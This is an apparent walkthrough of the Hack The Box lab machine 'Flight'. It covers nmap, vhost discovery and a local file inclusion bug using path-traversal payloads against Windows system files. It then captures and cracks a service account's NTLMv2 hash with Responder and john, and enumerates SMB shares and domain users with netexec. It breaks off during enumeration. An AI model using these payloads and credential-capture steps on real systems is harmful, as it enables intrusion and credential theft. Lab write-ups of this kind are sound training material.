Intro

[[windows]] [[NotAssumedBreach]] [[webapp]] [[PortForwarding]] [[Impersonation]] [[DCSync]] [[WinPEAS]] [[Vhosts]] [[OSCPpath]]
Tags: #windows #NotAssumedBreach #WebApp #PortForwarding #Impersonation #DCSync #WinPEAS #Vhosts
Tools used:
- whatweb (banner grabbing)
- gobuster (domain and subdomain enumeration)
- smbclient (SMB enumeration)
- chisel (port forwarding)
- winpeas (windows privesc)
- Runas (User impersonation)
- Rubeus
- secretsdump (DCSync)
Reconnaissance
Add target to /etc/hosts
Nmap scan
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2025-08-20 11:47 CDT
Nmap scan report for flight.htb (10.129.148.8)
Host is up (0.0081s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-08-20 23:48:02Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-08-20T23:48:07
|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 53.34 seconds
Interesting, we see port 80 is open, but first lets look at some other services.
RPC enumeration
Anonymous logon
access denied when typing any command
SMB enumeration
Anonymous logon
no shares found
Web app inspection
This is the home page
By clicking on any button and page i see no results or redirects… thats strange
Banner grabbing
http://flight.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.148.8], JQuery[1.4.2], OpenSSL[1.1.1m], PHP[8.1.1], Script[text/javascript], Title[g0 Aviation
Okay, we got some information there, but nothing stands out, lets move on with further enumeration of the web app
Web app enumeration
Domain enumeration
gobuster dir -e -t50 -x php,txt,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u flight.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://flight.htb
[+] Method: GET
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: txt,html,php
[+] Expanded: true
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://flight.htb/images (Status: 301) [Size: 333] [--> http://flight.htb/images/]
http://flight.htb/index.html (Status: 200) [Size: 7069]
http://flight.htb/.html (Status: 403) [Size: 299]
http://flight.htb/Images (Status: 301) [Size: 333] [--> http://flight.htb/Images/]
http://flight.htb/css (Status: 301) [Size: 330] [--> http://flight.htb/css/]
http://flight.htb/Index.html (Status: 200) [Size: 7069]
http://flight.htb/js (Status: 301) [Size: 329] [--> http://flight.htb/js/]
http://flight.htb/licenses (Status: 403) [Size: 418]
http://flight.htb/examples (Status: 503) [Size: 399]
http://flight.htb/IMAGES (Status: 301) [Size: 333] [--> http://flight.htb/IMAGES/]
http://flight.htb/%20 (Status: 403) [Size: 299]
http://flight.htb/INDEX.html (Status: 200) [Size: 7069]
http://flight.htb/*checkout* (Status: 403) [Size: 299]
http://flight.htb/*checkout*.txt (Status: 403) [Size: 299]
http://flight.htb/*checkout*.php (Status: 403) [Size: 299]
http://flight.htb/*checkout*.html (Status: 403) [Size: 299]
http://flight.htb/CSS (Status: 301) [Size: 330] [--> http://flight.htb/CSS/]
http://flight.htb/JS (Status: 301) [Size: 329] [--> http://flight.htb/JS/]
Nothing too interesting here.. next i will search for subdomains
Subdomain enumeration
gobuster dns -d flight.htb -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -i –wildcard
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain: flight.htb
[+] Threads: 10
[+] Show IPs: true
[+] Timeout: 1s
[+] Wordlist: /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 49928 / 49929 (100.00%)
===============================================================
Finished
===============================================================
No subdomains found
hm after many hours of searching through the web app, i found nothing. Then by doing some research about web app enumeration i came accross some terms i did not know and havent seen before, like virtual hosts, so lets look if these exist in our occassion:
Virtual host enumeration
What is virtual host?
virtual hosting is the ability of web servers to distinguish between multiple websites or applications sharing the same IP address.
Subdomains vs VHosts
- Subdomains are part of a domain name (like
blog.example.com) and are managed in DNS. They help organize services (blog, shop, mail, etc.). - Virtual Hosts (VHosts) are web server configurations that tell the server how to handle different domain names or subdomains on the same IP.
Even if a domain/subdomain doesn’t exist in DNS, you can still access it by manually mapping it in your hosts file.
Attackers and pentesters use VHost fuzzing to find hidden or internal subdomains/VHosts by trying different names against a target IP.
| Feature | Subdomains | Virtual Hosts (VHosts) |
|---|---|---|
| Definition | Extensions of a main domain (e.g., blog.example.com). |
Web server configurations for handling multiple sites on one IP. |
| Where Defined | DNS system (domain records). | Web server (Apache, Nginx, IIS, etc.). |
| Purpose | Organize services/sections of a website. | Allow hosting of multiple websites/apps on one server. |
| Dependency | Requires a DNS record (unless added manually in hosts file). | Requires web server configuration (may or may not have DNS). |
| Examples | shop.example.com, mail.example.com. |
example.com and dev.example.com on same IP but separate configs. |
| Accessibility | Public if DNS record exists, private if hidden. | Public if DNS points to it, otherwise can still exist internally. |
| Discovery | Found via DNS enumeration. | Found via VHost fuzzing (testing hostnames on an IP). |
For example:
- A single server with IP
192.168.1.10 - Can serve
example.comandblog.example.comandshop.com— all on the same machine.
Lets perform vhost enumeration using gobuster
gobuster vhost -u http://flight.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://flight.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
[+] Append Domain: true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: '.flight.htb Status: 400 [Size: 326]
Found: school.flight.htb Status: 200 [Size: 3996]
Found: %20.flight.htb Status: 400 [Size: 326]
Found: $FILE.flight.htb Status: 400 [Size: 326]
Found: $file.flight.htb Status: 400 [Size: 326]
Found: *checkout*.flight.htb Status: 400 [Size: 326]
Found: *docroot*.flight.htb Status: 400 [Size: 326]
Found: School.flight.htb Status: 200 [Size: 3996]
interesting, it has indeed found virtual hosts, specifically the one with status 200:
But what to do with it? Well, since we found this one, lets add it on etc hosts:
And then navigate there on our browser:

Just like the homepage, nothing is clickable here and no redirects were found by pressing buttons/links.. hm how to move forward here?
First, we could try finding information about the website’s tech stack (versions etc)
Banner grabbing
http://school.flight.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.228.120], OpenSSL[1.1.1m], PHP[8.1.1], Title[Aviation School], X-Powered-By[PHP/8.1.1]
It seems that this is an apache web server, version 2.4.52 and also i can see X-Powered-By[PHP/8.1.1] indicating php is involved.
The version can also be seen by wappalyzer :

Before we move on, lets enumerate this one for directories too like we did for flight.htb :
gobuster dir -e -t50 -x php,txt,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u school.flight.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://school.flight.htb
[+] Method: GET
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404,400,429
[+] User Agent: gobuster/3.6
[+] Extensions: php,txt,html
[+] Expanded: true
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://school.flight.htb/.html (Status: 403) [Size: 306]
http://school.flight.htb/images (Status: 301) [Size: 347] [--> http://school.flight.htb/images/]
http://school.flight.htb/index.php (Status: 200) [Size: 3996]
http://school.flight.htb/blog.html (Status: 200) [Size: 3618]
http://school.flight.htb/home.html (Status: 200) [Size: 2683]
http://school.flight.htb/about.html (Status: 200) [Size: 1689]
http://school.flight.htb/Images (Status: 301) [Size: 347] [--> http://school.flight.htb/Images/]
http://school.flight.htb/Home.html (Status: 200) [Size: 2683]
http://school.flight.htb/About.html (Status: 200) [Size: 1689]
http://school.flight.htb/Index.php (Status: 200) [Size: 3996]
http://school.flight.htb/Blog.html (Status: 200) [Size: 3618]
http://school.flight.htb/styles (Status: 301) [Size: 347] [--> http://school.flight.htb/styles/]
http://school.flight.htb/licenses (Status: 403) [Size: 425]
http://school.flight.htb/examples (Status: 503) [Size: 406]
http://school.flight.htb/IMAGES (Status: 301) [Size: 347] [--> http://school.flight.htb/IMAGES/]
http://school.flight.htb/%20 (Status: 403) [Size: 306]
http://school.flight.htb/INDEX.php (Status: 200) [Size: 3996]
http://school.flight.htb/*checkout*.html (Status: 403) [Size: 306]
http://school.flight.htb/*checkout*.txt (Status: 403) [Size: 306]
http://school.flight.htb/*checkout*.php (Status: 403) [Size: 306]
http://school.flight.htb/*checkout* (Status: 403) [Size: 306]
http://school.flight.htb/phpmyadmin (Status: 403) [Size: 425]
http://school.flight.htb/HOME.html (Status: 200) [Size: 2683]
http://school.flight.htb/webalizer (Status: 403) [Size: 425]
http://school.flight.htb/Styles (Status: 301) [Size: 347] [--> http://school.flight.htb/Styles/]
http://school.flight.htb/*docroot*.txt (Status: 403) [Size: 306]
http://school.flight.htb/ABOUT.html (Status: 200) [Size: 1689]
Okay, found some pages here, what does these tell us tho? lets ty navigating on some of them:
index.php : actually goes into the home page

/images shows the images and gifs of the page:

Now sth i did not notice earlier, there are buttons that appear only when i hover upon them:
Home basically is the home page and does not redirect elsewhere: full url http://school.flight.htb/index.php?view=home.html
About us . full url: http://school.flight.htb/index.php?view=about.html
Interesting, this one goes on another page:

It mentions template, in the lower part of the page:
Template details
Version 4
Website Template details, discussion and updates for this Aviation School template. Website Template design by Free Website Templates. Please feel free to remove some or all the text and links of this page and replace it with your own About content.
I dont know if this might be a hint, we will keep that in mind for later if needed.
Blog , full url http://school.flight.htb/index.php?view=blog.html

In this page no redirects where observed, nothing is clickable apart from the navigation bar (Home, About us, Blog)
Exploiting the WebApp
Alright, we found some more pages, but i mentioned their full url’s on purpose! What do we know about these urls?
Well, the urls contain flags/arguments, like ? sth, this is called query string, and inside it flags/paramteres are located. Parameters are separated with & like this example below:
So what types of vulnerabilities can be exploited via parameters on the url?
- LFI
- RFI
- Path traversal
Checking for LFI
Checking some windows system files first, with relative paths:
/index.php?view=../../../../windows/win.ini
/index.php?view=../../../../windows/system32/drivers/etc/hosts
But no luck, again received Suspicious Activity Blocked
Lets try now with absolute paths:
Nice! this did not get blocked and we received the file’s contents:

I guess the previous relative paths got blocked because it has detected the ../ parts.
Before moving forwards, we could try doing some fuzzing values for the view paramter here to see if we can get any vaulable files:
wfuzz -f ./fuzz-output.csv,csv -c -w ../Common/file_inclusion_windows.txt --hw 89,95 http://school.flight.htb/index.php?view=FUZZ
Unfortunately, i got nothing interesting from this one… lets move on
Lets try sth else, like php filter tricks to bypass extension checks:
again blocked….
Checking for RFI
Since we found that LFI exists, the next step would be to check for RFI too.
Lets check for UNC paths, this will work if allow_url_include or SMB fetching is enabled, and the app might try to load remote files.
we could also try to capture the NTLM hash of the account running the web server by making it authenticate against our SMB share.
IMPORTANT!: it did not work with \ it got blocked, it only worked with /
First start the responder
then hit the previous url on the browser, and receive the response on the responder with the NTLM hash
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash : svc_apache::flight:b3e91d07e8f0b746:04154593360088968E55D50CACE9BDC9:0101000000000000808519825913DC014B2194F5D02C9DC00000000002000800490036003300510001001E00570049004E002D004A00530052004100430032004F004C0030004100500004003400570049004E002D004A00530052004100430032004F004C003000410050002E0049003600330051002E004C004F00430041004C000300140049003600330051002E004C004F00430041004C000500140049003600330051002E004C004F00430041004C0007000800808519825913DC01060004000200000008003000300000000000000000000000003000005108C442C3741020BE0C1669030BA6011CB2E34E998B97B6DD2F82EF286BF89D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380030000000000000000000
nice! we got the NTLM hash of svc_apache user,
Cracking NTLM hash
unzip the wordlist (on HTB pwnbox its on zip format)
next crack it with john the ripper
it was cracked successfully, and we got the password:
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
S@Ss!K@*t13 (svc_apache)
1g 0:00:00:04 DONE (2025-08-22 12:06) 0.2136g/s 2278Kp/s 2278Kc/s 2278KC/s SADSAM..S42150461
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
lets now see where we can login with those creds:
Checking where we can login with svc_apache creds
Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check
WINRM 10.129.228.120 5985 G0 [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
WINRM 10.129.228.120 5985 G0 [-] flight.htb\svc_apache:S@Ss!K@*t13
[*] Checking if smb port 445 is open on flight.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.120 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
[*] Checking if ldap port 389 is open on flight.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP 10.129.228.120 389 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
[*] Checking if rdp port 3389 is open on flight.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on flight.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.228.120 135 G0 [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
RPC 10.129.228.120 135 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
[*] Checking if nfs port 2049 is open on flight.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on flight.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on flight.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on flight.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on flight.htb...
[-] Skipping mssql — port 1433 is closed
It seems we can login to: SMB LDAP RPC services, we will now proceed with their enumeration
SMB enumeration as svc_apache
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.120 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
SMB 10.129.228.120 445 G0 [*] Enumerated shares
SMB 10.129.228.120 445 G0 Share Permissions Remark
SMB 10.129.228.120 445 G0 ----- ----------- ------
SMB 10.129.228.120 445 G0 ADMIN$ Remote Admin
SMB 10.129.228.120 445 G0 C$ Default share
SMB 10.129.228.120 445 G0 IPC$ READ Remote IPC
SMB 10.129.228.120 445 G0 NETLOGON READ Logon server share
SMB 10.129.228.120 445 G0 Shared READ
SMB 10.129.228.120 445 G0 SYSVOL READ Logon server share
SMB 10.129.228.120 445 G0 Users READ
SMB 10.129.228.120 445 G0 Web READ
Interesting, we have READ permission towards some shares that are non default: Web and other ones that seem valuable like Shared Users
Next we can start navigating through these shares and see what we can find:
smb: \> ls
. DR 0 Thu Sep 22 15:16:56 2022
.. DR 0 Thu Sep 22 15:16:56 2022
.NET v4.5 D 0 Thu Sep 22 14:28:03 2022
.NET v4.5 Classic D 0 Thu Sep 22 14:28:02 2022
Administrator D 0 Mon Oct 31 13:34:00 2022
All Users DHSrn 0 Sat Sep 15 02:28:48 2018
C.Bum D 0 Thu Sep 22 15:08:23 2022
Default DHR 0 Tue Jul 20 14:20:24 2021
Default User DHSrn 0 Sat Sep 15 02:28:48 2018
desktop.ini AHS 174 Sat Sep 15 02:16:48 2018
Public DR 0 Tue Jul 20 14:23:25 2021
svc_apache D 0 Fri Oct 21 13:50:21 2022
5056511 blocks of size 4096. 1190909 blocks available
Finding valid users
Enumerate users and groups through smb using rid-brute-forcing
alternatively we could run the --users option for displaying the users only
lets place them on a txt now
nxc smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users.txt
the valid users are:
Administrator
Guest
krbtgt
G0$
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
Also lets inspect if there are any comments with sensitive info in the LDAP description for the users:
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP 10.129.228.120 389 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
LDAP 10.129.228.120 389 G0 [*] Total records returned: 15
LDAP 10.129.228.120 389 G0 -Username- -Last PW Set- -BadPW- -Description-
LDAP 10.129.228.120 389 G0 Administrator 2022-09-22 20:17:02 22 Built-in account for administering the computer/domain
LDAP 10.129.228.120 389 G0 Guest <never> 22 Built-in account for guest access to the computer/domain
LDAP 10.129.228.120 389 G0 krbtgt 2022-09-22 19:48:01 22 Key Distribution Center Service Account
LDAP 10.129.228.120 389 G0 S.Moon 2022-09-22 20:08:22 22 Junion Web Developer
LDAP 10.129.228.120 389 G0 R.Cold 2022-09-22 20:08:22 22 HR Assistant
LDAP 10.129.228.120 389 G0 G.Lors 2022-09-22 20:08:22 22 Sales manager
LDAP 10.129.228.120 389 G0 L.Kein 2022-09-22 20:08:22 22 Penetration tester
LDAP 10.129.228.120 389 G0 M.Gold 2022-09-22 20:08:22 22 Sysadmin
LDAP 10.129.228.120 389 G0 C.Bum 2022-09-22 20:08:22 22 Senior Web Developer
LDAP 10.129.228.120 389 G0 W.Walker 2022-09-22 20:08:22 22 Payroll officer
LDAP 10.129.228.120 389 G0 I.Francis 2022-09-22 20:08:22 22 Nobody knows why he's here
